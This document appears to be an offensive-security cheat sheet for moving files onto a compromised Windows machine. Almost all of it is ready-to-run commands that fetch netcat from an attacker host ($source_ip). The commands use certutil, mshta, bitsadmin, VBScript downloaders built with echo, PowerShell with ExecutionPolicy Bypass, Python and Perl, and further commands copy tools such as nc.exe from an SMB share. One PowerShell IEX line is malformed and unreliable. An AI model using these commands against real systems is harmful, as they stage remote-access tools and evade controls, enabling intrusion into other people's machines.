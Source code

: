 ## Download file
```bash
//$source_ip/$smb_share/tools_windows/bin/wget.exe http://$source_ip/tools_windows/bin/nc.exe
```
```bash
certutil -urlcache -split -f http://$source_ip/tools_windows/bin/nc.exe
```
```bash
mshta http://$source_ip/tools_windows/bin/nc.exe
```
```bash
bitsadmin /transfer badthings http://$source_ip/tools_windows/bin/nc.exe c:\nc.exe
```
Copy and paste downloader < Windows 10
```bash
echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  > dl.vbs &echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> dl.vbs &echo xHttp.Open "GET", WScript.Arguments(0), False  >> dl.vbs &echo xHttp.Send >> dl.vbs & echo bStrm.type = 1 >> dl.vbs &echo bStrm.open >> dl.vbs & echo bStrm.write xHttp.responseBody >> dl.vbs &echo bStrm.savetofile WScript.Arguments(1), 2 >> dl.vbs
cscript dl.vbs "http://$source_ip/tools_windows/bin/nc.exe" "nc.exe"
```

Copy and paste downloader >= Windows 10
```bash
echo dim xHttp: Set xHttp = CreateObject("MSXML2.ServerXMLHTTP.6.0")  > dl.vbs &echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> dl.vbs &echo xHttp.Open "GET", WScript.Arguments(0), False  >> dl.vbs &echo xHttp.Send >> dl.vbs &echo bStrm.type = 1 >> dl.vbs &echo bStrm.open >> dl.vbs &echo bStrm.write xHttp.responseBody >> dl.vbs &echo bStrm.savetofile WScript.Arguments(1), 2 >> dl.vbs
cscript dl.vbs "http://$source_ip/tools_windows/bin/nc.exe" "nc.exe"
```
```bash
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -C "(New-Object System.Net.WebClient).DownloadFile('http://$source_ip/tools_windows/bin/nc.exe','C:\nc.exe')"
```

```powershell
IEX("New-Object System.Net.WebClient).DownloadFile('http://$source_ip/tools_windows/bin/nc.exe','C:\nc.exe')")
```

Python:
```bash
python -c "import urllib.request; urllib.request.urlretrieve('http://$source_ip/tools_windows/bin/nc.exe', 'C:\\nc.exe');"
```
 
Perl:
```bash
perl -le "use File::Fetch; my $ff = File::Fetch->new(uri => 'http://$source_ip/tools_windows/bin/nc.exe'); my $file = $ff->fetch() or die $ff->error;"

```

## Copy windows binaries
```bash
copy //$source_ip/$smb_share/tools_windows/bin/Regexe.exe
```
```bash
copy //$source_ip/$smb_share/tools_windows/bin/regedit.exe
```
```bash
copy //$source_ip/$smb_share/tools_windows/bin/nc.exe
```
```bash
copy //$source_ip/$smb_share/tools_windows/bin/wget.exe
```
```bash
copy //$source_ip/$smb_share/tools_windows/bin/whoami.exe
```